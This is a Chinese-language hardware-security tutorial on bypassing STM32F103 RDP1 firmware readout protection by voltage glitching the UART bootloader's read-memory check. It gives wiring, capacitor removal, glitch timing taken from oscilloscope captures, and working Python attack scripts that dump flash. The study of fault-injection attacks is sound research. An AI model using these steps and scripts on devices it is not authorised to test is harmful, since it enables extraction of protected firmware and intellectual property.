STM32F1x 电压故障注入绕过 RDP1 固件读保护
相关工具及环境
推荐硬件设备清单
- STM32F103 核心板（Blue Pill）
- STLink
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- USB 转 TTL 小板
- 杜邦线若干
软件清单
RDP 介绍与开启
为了保护芯片内的固件不被攻击者获取，ST 给芯片设计了固件读保护机制（Readout Protection）简称 RDP
RDP 级别定义
- Level 0：无任何保护，默认的 RDP 级别，仅适用于开发和调试
- Level 1：禁用部分调试功能，无法通过调试接口访问 Flash，但可以读取 SRAM
- Level 2：完全禁用调试，禁止读写任何资源，大部分型号无法回退
- Level 0.5：适用于启用 TrustZone 的 STM32 MCU，仅限制对安全世界的调试访问，允许访问非安全世界
RDP 开启与关闭
| STM32 | ST-Link |
|---|---|
| 3V3 | 3.3V |
| GND | GND |
| SWCLK | SWCLK |
| SWO | SWDIO |
使用 ST-Link 连接 STM32 的 SWD 接口

打开 STM32CubeProgrammer 连接成功后点击左侧【OB】选项进入选项字节（Option Bytes）配置页面，勾选 RDP 保护，点击 Apply 应用即可开启 RDP

关闭 RDP1 与开启路径相同，在 Option bytes 选项字节中将 RDP 取消勾选并应用，将 RDP 关闭，此后可以读取 Flash 中的内容，但 Flash 被清空

STM32 Uart Bootloader 介绍与使用
Uart Botloader 介绍与连接
根据 STM32F1XXX 参考手册(P60)，STM32F103 根据 BOOT 引脚的电平状态，共有三种启动模式，根据 STM32 Datasheet(P15) System meoery 中存放的是 bootloader，这部分是芯片在制造阶段烧进去的，是一段只读（不可更改）的代码
这段代码的主要作用为通过串口对 STM32 的 Flash 进行擦除和写入。即可以在板级上进行编程，而不用把芯片拆下来放到烧写器中，所以称作“在系统编程” ISP（In-System Programming）要使用 UART Bootloader 功能要切换到 System memory 启动，即 BOOT0 要设置为 1，BOOT1 要设置为 0
因此将 BOOT0 跳线帽接到 1；BOOT1 跳线帽接到 0 切换到 Bootloader 启动

按照如下线序将 STM32 与串口小板连接在一起，将串口小板插到电脑 USB 接口，打开 CubeProgrammer 选择 UART 进行连接（如果未开启 RDP，应该读出了 Flash 数据）
| STM32 | USB TO TTL |
|---|---|
| 3V3 | 3V3 |
| GND | GND |
| A9 | RXD |
| A10 | TXD |

Uart Bootloader 通信协议
ST 对于 UART Bootloader 的通信协议有一份详细的文档，这将成为我们突破 RDP 的关键：protocol in stm32 bootloader

通过探索该文档，发现 0x11 这条命令是用来通过 Uart Bootloader 读取内存的，根据手册 P15 和 P16 中的描述，流程为：
1、发送 0x11 及其反码校验 0xEE
2、收到 ACK 再发送要读取的地址，该地址格式为四个字节的大端序，且互相异或得出一个字节的校验和
3、收到 ACK 后发送 Size 及其反码校验和，Size为实际要读的大小减一
4、收到 ACK 后，接收读回来的数据
每次读取最多 256 个字节数据，但是可以写个循环多次读取

因此编写脚本尝试通过 Uart Bootloader 读取 flash 中的内容：
import serial # 导入串口库
import struct
# 初始化串口，校验格式为偶校验
s = serial.Serial("COM52",115200,parity=serial.PARITY_EVEN,timeout=0.5)
s.write(b"\x7F") # 发送 0x7F
recv = s.read(1)
print("0x7F ack: ",recv.hex())
s.write(b"\x11\xEE") # 发送 0x11 read memory
recv = s.read(1)
print("0x11 ack: ",recv.hex())
addr = 0x08000000
a = struct.pack('>I',addr) # 大端序
x = struct.pack('B',(a[0] ^ a[1] ^ a[2] ^ a[3])) # 计算校验和
address = a + x
s.write(address) # 发送 address
recv = s.read(1)
print("address ack: ",recv.hex())
s.write(b"\xFF\x00") # 发送 size 0xFF
recv = s.read(1)
print("size ack: ",recv.hex())
flash = s.readall()
print("Read back Flash: ",flash.hex())

故障 Uart Bootloader
但当开启 RDP 后仍然无法通过该方法读取固件，值得注意的是：开启 RDP1 后 Bootloader 并不是完全拒绝响应的，当我们使用 0x7F 激活 bootloader 时仍然回复了 0x79，等到 0x11 请求读取 Flash 时才会返回 0x1F 那是不是有可能意味着：每次发送 0x11 时 Bootloader 都会先检查 RDP1 是否开启，再决定是否可以执行读取 Flash 的操作呢？
使用示波器抓取读取 Flash 的 UART 通信过程，并添加串行译码解析 UART 通信，选择偶校验

图中红色波形为 PA10；蓝色波形为 PA9，通过示波器波形图中的虚线标尺可以看到，发送完 \x11\xEE 大约 14.44us 返回了 \x1F，如果真如我们所想，那么校验逻辑一定在这期间，我们可以在这期间进行故障注入，根据 UART 协议，read memory 命令会产生 6 次上升沿，只要在 PA10 发送 \x11\xEE 造成的第六次上升沿后的 14.44us 内注入故障就有可能绕过 RDP 的检查

故障注入绕过STM32F1x RDP1
电压毛刺注入物理位置
查阅 STM32F103 的芯片手册，F103芯片有多个供电引脚，这些直接接到了开发板的 3.3V 上，因此我们直接对开发板的供电引脚进行电压短路故障注入
去电容提高成功率
开发板上的电容具有储能的特性，如果在一个具有巨大电容的电源线上进行电压短路故障注入，电压会缓慢下降到零，达不到我们期望的效果，因此我们需要把电容去除（这里仅以某型号 STM32F103 开发板为例，具体需根据卖家给的原理图自己查找）

我们的 STM32F103 核心板只是个小开发板，不是什么复杂的系统，所以可以放心的多去几个电容试试

故障注入时遇到的问题
1、如何控制设备重启（重启）
答：通过 PowerShorter 设备的 GPIO 为 STM32 供电，Python 代码控制 GPIO
2、打哪个地方的电压、如何打（毛刺物理位置、CPU 核心供电、短路毛刺、毛刺宽度）
答：直接打 VDD 供电引脚；短接 VDD 和 GND 使其电压短暂拉低
3、什么时候打故障（毛刺时间位置、触发、延时）
答：以 \x11\xEE 发送时在 A10 上产生的第 6 个上升沿作为触发，打在上升沿14.44us 内
4、怎么判断是否打成功了（故障结果反馈）
答：判断 \x11\xEE 返回的结果，为 \x79 则表示故障成功
硬件接线参考

成功波形参考

攻击脚本参考
导入相关库
from power_shorter import *
import time
import serial
import faultviz
import random
初始化设备
ps_dev = PowerShorter("com86")
给设备上下电，检查是否能够正常重启
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
初始化 faultviz 服务与表单
faultviz.start_view_service(port=12345)
vt = faultviz.ViewWidget()
定义 Uart Bootloader 中地址格式转化函数
def gen_addr(addr_int):
addr_checksum = 0
addr_bytes = addr_int.to_bytes(4,byteorder="big")
for i in addr_bytes:
addr_checksum ^= i
return addr_bytes + addr_checksum.to_bytes(1,byteorder="big")
初始化串口小板
s = serial.Serial('com50', 115200, parity=serial.PARITY_EVEN, timeout=0.5)
定义攻击函数
def stm32_attack():
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(0.3)
ps_dev.gpio(GPIO.GPIO1, 1)
glitch_delay = random.randint(990, 1050)
glitch_pulse = random.randint(15, 30)
ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE,1 ,6) # 设置毛刺上升沿六次触发
s.write(b'\x7f')
res1 = s.readall().hex()
ps_dev.arm(Engine.E1) # 发送 0x11 0xEE 前激活毛刺
s.write(b'\x11\xee')
res2 = s.read(1).hex()
if res2 == '79': # 若返回 79 则表示成功绕过 RDP
status = "Success"
s.write(gen_addr(0x08000000)) # 发送要读取的地址
res3 = s.read(1).hex()
s.write(b'\xff\x00') # 发送要读取的 size
res4 = s.read(257).hex() # 接收读取的数据
result = res1+res2+res3+res4
vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
return 0
else:
status = "Normal"
result = res1 + res2
vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = str(result))
return 1
执行一次攻击函数，检查代码是否有问题
stm32_attack()
查看表单，检查刚才的攻击是否将结果添加到表单中
vt.show()
写个循环，直到成功绕过 RDP 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置
attackflag = 1
while(attackflag):
attackflag = stm32_attack()